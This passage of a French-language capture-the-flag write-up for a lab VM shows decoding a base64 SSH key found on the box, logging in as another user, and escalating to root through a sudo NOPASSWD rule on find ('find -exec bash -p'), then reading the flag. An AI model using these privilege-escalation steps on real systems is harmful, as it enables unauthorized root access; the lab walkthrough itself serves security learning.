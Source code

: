 Ce fichier, une fois les permissions corrigées, contient une clé privée SSH encodée en base64.  

```plain
neo@easy-vm:~$ chmod 600 trinity-key
neo@easy-vm:~$ base64 -d trinity-key > id_rsa 
neo@easy-vm:~$ chmod 600 id_rsa  
neo@easy-vm:~$ ssh -i id_rsa trinity@127.0.0.1 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64) 

 * Documentation:  https://help.ubuntu.com 
 * Management:     https://landscape.canonical.com 
 * Support:        https://ubuntu.com/advantage 

  System information as of Mon 07 Feb 2022 10:53:28 AM UTC 

  System load:  0.03              Processes:               134 
  Usage of /:   50.8% of 8.79GB   Users logged in:         1 
  Memory usage: 13%               IPv4 address for enp0s3: 192.168.56.23 
  Swap usage:   0% 

 * Super-optimized for small spaces - read how we shrank the memory 
   footprint of MicroK8s to make it the smallest full K8s around. 

   https://ubuntu.com/blog/microk8s-memory-optimisation 

0 updates can be applied immediately. 

The list of available updates is more than a week old. 
To check for new updates run: sudo apt update 
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings 

Last login: Thu Dec 30 23:52:06 2021 from 192.168.86.130 
trinity@easy-vm:~$ id 
uid=1001(trinity) gid=1001(trinity) groups=1001(trinity)
```

Finalement on en vient à l'indice du début :  

```plain
trinity@easy-vm:~$ sudo -l 
Matching Defaults entries for trinity on easy-vm: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User trinity may run the following commands on easy-vm: 
    (ALL) NOPASSWD: /usr/bin/find 
trinity@easy-vm:~$ sudo /usr/bin/find README -exec bash -p \; 
root@easy-vm:/home/trinity# id 
uid=0(root) gid=0(root) groups=0(root) 
root@easy-vm:/home/trinity# cd /root/ 
root@easy-vm:~# ls 
root.txt  snap 
root@easy-vm:~# cat root.txt  

   _________                       __         .__   __             _______________   ________  ____    
  /   _____/ ____   ______  _  ___/  |______  |  | |  | __  ______ \_____  \   _  \  \_____  \/_   |   
  \_____  \ /    \ /  _ \ \/ \/ /\   __\__  \ |  | |  |/ / /  ___/  /  ____/  /_\  \  /  ____/ |   |   
  /        \   |  (  <_> )     /  |  |  / __ \|  |_|    <  \___ \  /       \  \_/   \/       \ |   |   
 /_______  /___|  /\____/ \/\_/   |__| (____  /____/__|_ \/____  > \_______ \_____  /\_______ \|___|   
```
